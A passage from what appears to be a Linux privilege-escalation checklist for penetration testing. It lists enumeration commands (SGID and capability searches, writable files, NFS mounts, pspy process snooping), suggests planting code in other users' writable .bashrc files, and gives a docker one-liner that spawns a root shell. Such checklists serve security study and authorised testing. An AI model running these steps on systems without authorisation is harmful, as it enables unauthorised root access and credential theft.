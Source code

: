 * [ ] Find SGID:

```
 find / -perm -g=s -type f 2>/dev/null
 find / -perm +2000 -user root -type f -print
```

* [ ] Interesting Capabilities on Binary:

```
 getcap -r / 2>/dev/null
```

* [ ] Any writable file

```
 # look for any writable file
 find / -type f -writable 2> /dev/null

 # look for writable configuration file
 find /etc -type f -writable 2> /dev/null
```

* [ ] Any user owned file

```
 find / -type f -user username 2>/dev/null
```

* [ ] Any NFS share

```
 # check if it's avaiable a NFS share
 showmount -e X.X.X.X;
 # mount it and look for files or try to create ones
 # maybe you are another user
 mount X.X.X.X:/ /tmp/
```

* [ ] Let [Pspy](https://github.com/DominicBreuker/pspy) spy on the processes:

```
 # you could find some interesting running processes or credentials
 ./pspy > /tmp/pspy-out.txt
```

* [ ] Is .bashrc writeable?

```
 # if another user's .bashrc is writeable, you could
 # put code inside it and wait the user to login in order
 # to trigger the execution of it
 ls -la /home/*/.bashrc; find / -name .bashrc -xdev 2>/dev/nul
```

* [ ] Is the user beloging to docker?

```
 # this will spawn a root shell
 docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
